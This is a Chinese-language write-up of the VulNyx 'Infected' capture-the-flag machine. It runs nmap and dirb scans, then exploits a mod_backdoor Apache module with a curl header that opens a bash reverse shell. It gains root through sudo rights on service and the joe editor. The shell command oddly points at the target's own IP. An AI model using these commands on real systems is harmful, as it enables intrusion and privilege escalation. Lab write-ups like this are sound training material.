









# 环境

来自[vulnyx_Infected](https://vulnyx.com/#Infected)，利用phpinfo已存在加载后门模块，拿到shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.35
```



## 目录扫描

```bash
dirb http://192.168.88.35
```



# web渗透

## 利用phpinfo()

访问http://192.168.88.35/info.php，查找字符串可以看到Loaded Modules加载了一个mod_backdoor模块



进行反弹shell

```bash
curl -H "Backdoor:bash -c 'bash -i >& /dev/tcp/192.168.88.35/4444 0>&1'" http://192.168.88.35
```



## 提权

可以看到laurent有service权限



进行[service](https://gtfobins.github.io/gtfobins/service/)提权



可也看到laurent用户有root权限执行[joe](https://gtfobins.github.io/gtfobins/joe/)



```bash
sudo joe
然后ctrl+k,输入!
有命令交互输入/bin/bash,成功拿shell
```


